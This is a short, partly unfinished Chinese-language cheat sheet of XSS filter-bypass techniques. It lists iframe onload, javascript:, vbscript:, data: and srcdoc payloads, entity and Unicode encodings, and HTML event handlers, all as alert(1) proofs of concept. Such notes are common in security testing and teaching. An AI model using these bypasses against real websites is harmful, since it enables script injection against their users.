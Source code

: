 ```txt
2. 首先确定FLASH是否有接受参数
```
XSS 绕过Tips
##浏览器特性
* chrome会自动对",>,<进行转换。
```txt
    ?key;alert(1);//=aaaa
    换成
    this.key="aaa";alert(1);//";
    会变成
    this.key="aaa%22;alert(1);//";

```
* iframe 相关
```txt
    onload执行js:
        <iframe onload="alert(1)"></iframe>,src执行javascript代码
        <iframe src="javascript:alert(1)"></iframe>
    IE下vbscript执行代码:
        <iframe src="vbscript:msgbox(1)"></iframe>
    Chrome下data协议执行代码：
        <iframe src="data:text/html,<script>alert(1)</script>"></iframe>Chrome
    上面的变体
        <iframe src="data:text/html,&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
    Chrome下srcdoc属性
        <iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
```

## js特性的绕过
* 以functionxxx(){}形式定义的函数，都会被最优先解析。这样可以对一些未定义变量进行绕过
* JS的字符串中的字符可以写为unicode编码
    ```txt
    在JS字符串里，<不光可以写为\u003c，还可以写为\x3c，>同样可以写为\x3e
    ```
*
## 编码类型的绕过
1. 在HTML属性中，会自动对实体字符进行转义
```txt
<img src="1"onerror="alert(1)">
和
<img src="1"onerror="alert&#x28;1&#x29;">
是等效的

```

2.
## flash 类型的绕过
## 标签类型的绕过
javascript on*事件、style属性、action/src/href等
```txt
 onafterprint
onbeforeprint
onbeforeunload
onerror
onhaschange
onload
onmessage
onoffline
ononline
onpagehide
onpageshow
```